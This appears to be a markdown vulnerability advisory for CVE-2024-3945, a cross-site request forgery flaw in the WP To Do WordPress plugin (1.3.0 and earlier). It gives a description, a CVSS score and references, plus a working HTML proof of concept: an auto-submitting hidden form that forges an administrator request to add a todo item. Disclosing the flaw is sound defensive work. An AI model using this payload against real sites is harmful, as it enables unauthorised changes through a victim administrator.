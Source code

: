 ```yaml
---
layout: page
title: CVE-2024-3945
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_manage()
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_manage() function. This makes it possible for unauthenticated attackers to add new todo items via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=wp-todo" method="POST">
      <input type="hidden" name="wptodo&#95;addtask" value="true" />
      <input type="hidden" name="wptodo&#95;from" value="1" />
      <input type="hidden" name="wptodo&#95;title" value="eneri" />
      <input type="hidden" name="wptodo&#95;description" value="eneri" />
      <input type="hidden" name="wptodo&#95;deadline" value="2024&#45;04&#45;16" />
      <input type="hidden" name="wptodo&#95;for" value="2" />
      <input type="hidden" name="wptodo&#95;status" value="1" />
      <input type="hidden" name="wptodo&#95;priority" value="4" />
      <input type="hidden" name="wptodo&#95;notify" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L273
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-manage





